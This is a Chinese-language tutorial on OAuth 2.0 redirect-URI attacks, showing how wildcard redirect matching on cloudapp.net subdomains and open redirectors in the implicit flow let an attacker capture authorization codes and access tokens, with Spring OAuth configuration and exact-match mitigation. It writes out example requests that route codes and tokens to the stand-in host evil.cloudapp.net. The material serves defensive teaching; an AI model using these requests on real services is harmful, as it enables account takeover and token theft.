 ## 1. 概述

OAuth 是委托授权的行业标准框架。在创建构成标准的各种流程时，已经投入了大量的思考和精力。即便如此，它也并非没有漏洞。

在本系列文章中，我们将从理论的角度讨论针对OAuth的攻击，并描述可用于保护我们的应用程序的各种选项。

## 2.授权码授予

授权[代码授予](https://oauth.net/2/grant-types/authorization-code/)流程是大多数实现委派授权的应用程序使用的默认流程。

在该流程开始之前，Client 必须预先注册到 Authorization Server，并且在此过程中，它还必须提供重定向URL——即Authorization Server 可以通过 Authorization 回调到 Client 的URL代码。

让我们仔细看看它是如何工作的以及其中一些术语的含义。

在授权代码授予流程中，客户端(请求委派授权的应用程序)将资源所有者(用户)重定向到授权服务器(例如[Login with Google](https://developers.google.com/identity/sign-in/web/sign-in))。登录后，授权服务器使用授权码重定向回客户端。

接下来，客户端调用授权服务器的端点，通过提供授权代码来请求访问令牌。至此，流程结束，客户端可以使用token访问Authorization Server保护的资源。

现在，OAuth 2.0 Framework 允许这些 Clients 公开，比如在 Client 不能安全地持有 Client Secret 的情况下。让我们看一下可能针对公共客户端的一些重定向攻击。

## 3.重定向攻击

### 3.1. 攻击前提

重定向攻击依赖于OAuth 标准没有完全描述必须指定此重定向URL的范围这一事实。 这是设计使然。

这允许OAuth协议的某些实现允许部分重定向URL。

例如，如果我们使用以下基于通配符的匹配项与授权服务器注册客户端 ID 和客户端重定向URL：

.cloudapp.net

这将适用于：

app.cloudapp.net

也适用于：

evil.cloudapp.net

我们特意选择了cloudapp.net域，因为这是我们可以托管OAuth支持的应用程序的真实位置。[该域是微软 Windows Azure 平台](https://docs.microsoft.com/en-us/archive/blogs/ptsblog/security-consideration-when-using-cloudapp-net-domain-as-production-environment-in-windows-azure)的一部分，允许任何开发人员在其下托管子域以测试应用程序。这本身不是问题，但它是更大利用的重要组成部分。

此漏洞利用的第二部分是授权服务器，它允许在回调URL上进行通配符匹配。

最后，为了实现这个漏洞利用，应用程序开发者需要向授权服务器注册以接受主域下的任何URL，形式为.cloudapp.net。

### 3.2. 攻击

当满足这些条件时，攻击者需要诱骗用户从他控制的子域启动页面，例如，向[用户发送一封看似真实的电子邮件](https://www.vadesecure.com/en/5-common-phishing-techniques/)，要求他对受OAuth保护的帐户采取一些行动。通常，这看起来像https://evil.cloudapp.net/login。当用户打开此链接并选择登录时，他将被重定向到带有授权请求的授权服务器：

```java
GET /authorize?response_type=code&client_id={apps-client-id}&state={state}&redirect_uri=https%3A%2F%2Fevil.cloudapp.net%2Fcb HTTP/1.1
```

虽然这看起来很正常，但这个URL是恶意的。看，在这种情况下，授权服务器收到一个篡改的URL，其中包含应用程序的客户端 ID和一个指向回恶意应用程序的重定向URL。

然后，授权服务器将验证URL，该URL是指定主域下的子域。由于授权服务器认为请求来自有效来源，因此它将对用户进行身份验证，然后像往常一样征求同意。

完成后，它现在将重定向回evil.cloudapp.net子域，将授权码交给攻击者。

由于攻击者现在有了授权码，他需要做的就是用授权码调用授权服务器的令牌端点来接收令牌，这允许他访问资源所有者的受保护资源。

## 4.Spring OAuth授权服务器漏洞评估

让我们看一个简单的Spring OAuth授权服务器配置：

```java
@Configuration
public class AuthorizationServerConfig extends AuthorizationServerConfigurerAdapter {    
    @Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
        clients.inMemory()
          .withClient("apricot-client-id")
          .authorizedGrantTypes("authorization_code")
          .scopes("scope1", "scope2")
          .redirectUris("https://app.cloudapp.net/oauth");
    }
    // ...
}
```

我们可以在这里看到授权服务器正在配置一个 ID 为“apricot-client-id”的新客户端。没有客户端密码，所以这是一个公共客户端。

我们的安全耳朵应该对此振作起来，因为我们现在拥有三个条件中的两个 - 邪恶的人可以注册子域并且我们正在使用公共客户端。

但是，请注意，我们也在此处配置重定向URL，并且它是 absolute。我们可以通过这样做来减轻漏洞。

### 4.1. 严格的

默认情况下，SpringOAuth在重定向URL匹配方面允许一定程度的灵活性。

例如， DefaultRedirectResolver 支持子域匹配。

让我们只使用我们需要的东西。如果我们可以恰好匹配重定向URL，我们应该这样做：

```java
@Configuration
public class AuthorizationServerConfig extends AuthorizationServerConfigurerAdapter {    
    //...

    @Override
    public void configure(AuthorizationServerEndpointsConfigurer endpoints) {
        endpoints.redirectResolver(new ExactMatchRedirectResolver());
    }
}
```

在这种情况下，我们已切换到使用ExactMatchRedirectResolver重定向URL。此解析器执行精确的字符串匹配，而不以任何方式解析重定向URL。这使得它的行为更加安全和确定。

### 4.2. 宽容

[我们可以在Spring SecurityOAuth source](https://github.com/spring-projects/spring-security-oauth/blob/7bfe08d8f95b2fec035de484068f7907851b27d0/spring-security-oauth2/src/main/java/org/springframework/security/oauth2/provider/endpoint/DefaultRedirectResolver.java)中找到处理重定向URL匹配的默认代码：

```java
/**
Whether the requested redirect URI "matches" the specified redirect URI. For a URL, this implementation tests if
the user requested redirect starts with the registered redirect, so it would have the same host and root path if
it is an HTTP URL. The port, userinfo, query params also matched. Request redirect uri path can include
additional parameters which are ignored for the match
<p>
For other (non-URL) cases, such as for some implicit clients, the redirect_uri must be an exact match.
@param requestedRedirect The requested redirect URI.
@param redirectUri The registered redirect URI.
@return Whether the requested redirect URI "matches" the specified redirect URI.
*/
protected boolean redirectMatches(String requestedRedirect, String redirectUri) {
   UriComponents requestedRedirectUri = UriComponentsBuilder.fromUriString(requestedRedirect).build();
   UriComponents registeredRedirectUri = UriComponentsBuilder.fromUriString(redirectUri).build();
   boolean schemeMatch = isEqual(registeredRedirectUri.getScheme(), requestedRedirectUri.getScheme());
   boolean userInfoMatch = isEqual(registeredRedirectUri.getUserInfo(), requestedRedirectUri.getUserInfo());
   boolean hostMatch = hostMatches(registeredRedirectUri.getHost(), requestedRedirectUri.getHost());
   boolean portMatch = matchPorts ? registeredRedirectUri.getPort() == requestedRedirectUri.getPort() : true;
   boolean pathMatch = isEqual(registeredRedirectUri.getPath(),
     StringUtils.cleanPath(requestedRedirectUri.getPath()));
   boolean queryParamMatch = matchQueryParams(registeredRedirectUri.getQueryParams(),
     requestedRedirectUri.getQueryParams());

   return schemeMatch && userInfoMatch && hostMatch && portMatch && pathMatch && queryParamMatch;
}
```

我们可以看到，URL匹配是通过将传入的重定向URL解析为其组成部分来完成的。由于它的几个特性，这非常复杂，比如端口、子域和查询参数是否应该匹配。 选择允许子域匹配是需要三思的。

当然，这种灵活性是存在的，如果我们需要的话——让我们谨慎使用它。

## 5.隐式流量重定向攻击

需要明确的是，[不推荐](https://tools.ietf.org/html/rfc8252#section-8.2)[使用隐式流](https://oauth.net/2/grant-types/implicit/) 。最好使用具有[PKCE](https://tools.ietf.org/html/rfc7636)提供的附加安全性的授权代码授予流程。也就是说，让我们看一下重定向攻击如何通过隐式流表现出来。

针对隐式流的重定向攻击将遵循与我们在上面看到的相同的基本轮廓。主要区别在于攻击者会立即获得令牌，因为没有授权代码交换步骤。

和以前一样，重定向URL的绝对匹配也将减轻此类攻击。

此外，我们可以发现隐式流包含另一个相关漏洞。攻击者可以将客户端用作开放式重定向器并让它重新附加片段。

攻击像以前一样开始，攻击者让用户访问受攻击者控制的页面，例如https://evil.cloudapp.net/info。该页面被设计为像以前一样发起授权请求。但是，它现在包含一个重定向URL：

```java
GET /authorize?response_type=token&client_id=ABCD&state=xyz&redirect_uri=https%3A%2F%2Fapp.cloudapp.net%2Fcb%26redirect_to
%253Dhttps%253A%252F%252Fevil.cloudapp.net%252Fcb HTTP/1.1

```

redirect_to https://evil.cloudapp.net正在设置授权端点以将令牌重定向到攻击者控制下的域。授权服务器现在将首先重定向到实际的应用程序站点：

```java
Location: https://app.cloudapp.net/cb?redirect_to%3Dhttps%3A%2F%2Fevil.cloudapp.net%2Fcb#access_token=LdKgJIfEWR34aslkf&...

```

当此请求到达打开的重定向器时，它将提取重定向URLevil.cloudapp.net，然后重定向到攻击者的站点：

```java
https://evil.cloudapp.net/cb#access_token=LdKgJIfEWR34aslkf&...

```

绝对URL匹配也将减轻这种攻击。

## 6.总结

在本文中，我们讨论了一类基于重定向URL的针对OAuth协议的攻击。

虽然这可能会造成严重后果，但在授权服务器上使用绝对URL匹配可以减轻此类攻击。